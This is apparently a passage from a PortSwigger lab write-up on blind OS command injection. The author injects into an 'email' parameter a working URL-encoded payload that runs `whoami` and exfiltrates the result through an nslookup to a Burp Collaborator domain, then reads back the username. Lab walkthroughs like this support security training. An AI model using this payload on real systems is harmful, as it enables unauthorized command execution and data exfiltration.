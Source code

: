 It's again the `email` parameter that is vulnerable to the command injection. I'll escape the intended shell command with the double pipe symbol `||` and insert the `nslookup` command I will also use the `+` operator to insert the `whoami` command, which must also be wrapped in backticks, the *whoami* command needs to be followed by a period `.`, then I right click the space following the period and select *insert collaborate payload*, finally I finish the payload with another double pipe symbol `||` so that the shell command will continue to execute as normal.  

`email=crumbles%40Crumbles.com||nslookup+`whoami`.pkdyntaakaaqqp70m804zs0bo2utij68.oastify.com||` 

![editted request](/docs/assets/images/portswigger/oscommandinjection/osci33.png)

I can see from the request response that the server responded with a *200*. Back in the *collaborator* I can select the payload  and locate the results of the *whoami* command from the in the description, `peter-Je5bag`.  
